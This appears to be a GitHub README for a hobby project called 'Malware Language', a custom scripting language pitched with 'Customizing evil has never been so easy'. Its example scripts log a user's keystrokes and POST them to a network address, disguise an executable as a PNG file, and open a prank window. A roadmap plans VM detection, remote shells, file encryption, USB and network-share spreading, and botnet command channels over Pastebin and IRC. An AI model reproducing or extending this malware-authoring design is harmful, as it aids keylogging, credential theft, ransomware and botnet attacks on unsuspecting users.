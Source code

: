 # Malware Language

Customizing evil has never been so easy

### Example code
Basic example
```
main:{
  malware.name("MrSkeltal"); @ Sets the binary name of our file

  window.x("600");
  window.y("800");
  window.title("You just got hacked bruh!");
  window.url("https://mrskeltal.com/");

  window.run(); @ This runs our nice window, displaying the set url
  system.exit("0");
}
```

Network POST example
```
main:{
 wait:(time.until("22:00")){ @ Waits until 22:00 today before exiting
  info := keyboard.log(); @ Logs everything the user enters
 }

 network.set_user_agent("Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36"); @ Updates the user agent for this request
 network.POST("address", "port", info); @ Will send whatever the user entered 

 system.exit(); @ Exits the program
}
```

Transmog example
```
main:{
 object.set_header_target("png"); @ Will result in the end product being identified as a png
 object.set_extension(".png"); @ Sets the program extension
 
 window.notify("Hello, World!"); @ Prints "Hello, World!" to the screen

 system.exit(); @ Exits the program
}
```
## TODO
1. Code clean up
2. Directory clean up
3. Add neccessary log functions

## General ideas on what more the language can do
1. Includes tools to check if the malware is running in a vm, what kind of vm(?)
2. Include options to open socket to target, send commands and retrieve results, copy files, mv files etc.
3. Be able to write to specific disk blocks, write & read from the disk.
4. Encrypt files and decryptions methods. Should contain multiple different encryptions methods
5. Able to copy the executable to different locaitons
6. Metasploit compatability? Being able to run metasploit scripts?
7. Using pastebin for sending commands to zombies in a botnet.
8. IRC for sending commands to zombies in a botnet(?)
9. Copy to usb
10. Copy accross network shared folders

## The compiler should then be able to
1. Target plattform, windows, nix

## Technical parts
1. All directories created are temporarly and should be deleted when the program is finished
2. Internal inputs/outpus are all in json format
